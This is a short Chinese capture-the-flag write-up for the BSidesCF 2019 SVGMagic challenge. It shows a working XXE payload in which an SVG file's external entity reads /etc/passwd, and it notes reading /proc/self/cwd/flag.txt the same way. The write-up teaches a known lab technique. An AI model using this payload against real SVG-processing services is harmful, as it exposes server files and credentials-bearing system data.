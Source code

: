 # \[BSidesCF 2019]SVGMagic

## \[BSidesCF 2019]SVGMagic

## 考点

* SVG导致的XXE

## wp

题目功能是提供一个svg文件，然后可以把它转换为图片

SVG 是使用 XML 格式定义图形一种方式

```php
<svg version="1.1"
  baseProfile="full"
  width="300" height="200"
  xmlns="http://www.w3.org/2000/svg">
  <rect width="100%" height="100%" stroke="red" stroke-width="4" fill="yellow" />
  <circle cx="150" cy="100" r="80" fill="green" />
  <text x="150" y="115" font-size="16" text-anchor="middle" fill="white">RUNOOB SVG TEST</text>
</svg>
```

这段XML文档就对应如下图片

![](../.gitbook/assets/N008mCWA11EZebq35Zd7OnP\_S4XPRXbwKed5Qo4yoX0.png)

那这里可以尝试XXE

```xml
<?xml version="1.0" encoding="UTF-8" standalone="no"?>
<!DOCTYPE svg [
<!ELEMENT svg ANY >
<!ENTITY evil SYSTEM "file:///etc/passwd" >]>
<svg version="1.1"
  baseProfile="full"
  width="3000" height="2000"
  xmlns="http://www.w3.org/2000/svg">
  <text x="1500" y="1150" font-size="16" text-anchor="middle" fill="red">&evil;</text>
</svg>
```

可以看到返回，再去读取`/proc/self/cwd/flag.txt`

## 小结

* 文件包含多考虑`/proc`文件，本题`/proc/self/cwd` 就是当前脚本的路径
